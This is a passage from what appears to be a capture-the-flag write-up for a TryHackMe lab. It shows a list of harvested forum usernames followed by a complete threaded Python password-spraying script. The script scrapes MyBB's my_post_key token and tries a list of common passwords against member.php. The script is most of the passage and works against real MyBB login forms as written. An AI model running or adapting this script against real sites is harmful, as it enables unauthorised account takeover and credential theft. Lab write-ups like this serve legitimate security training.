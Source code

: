 ```shell
┌[siunam♥earth]-(~/ctf/thm/ctf/M4tr1x-Exit-Denied)-[2023.01.25|15:53:30(HKT)]
└> head -n 5 username.txt 
bigpaul
Wannabe_Hacker
SarahHunt
bubbaBIGFOOT
jscale
```

**Then we can start to do password spraying!**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep
import re

class Sprayer:
    def __init__(self, url):
        self.__url = url

    def sendRequest(self, username, password):
        # Create a new requests session object
        session = requests.Session()
        
        # Fetch the my_post_key value
        my_post_keyRequestResult = session.get(self.__url)
        matched = re.search(r'var my_post_key = "([0-9a-f]+)";' , my_post_keyRequestResult.text)
        my_post_key = matched.group(1)
        
        # Construct POST requests
        loginData = {
            'username': username,
            'password': password,
            'submit': 'Login',
            'action': 'do_login',
            'url': '',
            'my_post_key': my_post_key
        }

        loginRequestResult = session.post(self.__url, data=loginData)
        print(f'[*] Trying user: {username:20s}', end='\r')

        if 'Please correct the following errors before continuing:' not in loginRequestResult.text:
            print(f'[+] Found valid credentials: {username}:{password}')

def main():
    url = 'http://exit-denied.thm/member.php'
    sprayer = Sprayer(url)

    listPassword = ['password123', 'Password123', 'crabfish', 'linux123', 'secret', 'piggybank', 'windowsxp', 'starwars', 'qwerty123', 'qwerty', 'supermario', 'Luisfactor05', 'james123']
    userWordlist = 'username.txt'

    with open(userWordlist, 'r') as file:
        for line in file:
            username = line.strip()
            for password in listPassword:
                thread = Thread(target=sprayer.sendRequest, args=(username, password))
                thread.start()
        
                # You can adjust how fast of each thread. 0.5s is recommended.
                sleep(0.5)
```